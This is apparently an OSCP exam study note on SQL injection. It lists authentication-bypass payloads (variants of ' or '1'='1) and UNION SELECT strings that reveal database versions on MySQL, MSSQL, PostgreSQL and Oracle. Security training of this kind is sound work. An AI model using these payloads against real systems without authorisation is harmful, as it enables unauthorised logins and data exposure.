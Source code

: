 # SQLI

SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

```sql
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

###  SQL Command Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. In this case, try these common injections:

#### MySQL

```sql
' UNION SELECT 1, VERSION(), 3-- 
```

#### MSSQL

```sql
' UNION ALL SELECT @@VERSION, NULL--
```

#### PostgreSQL

```sql
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```sql
' UNION ALL SELECT banner, NULL FROM v$version-- 
```
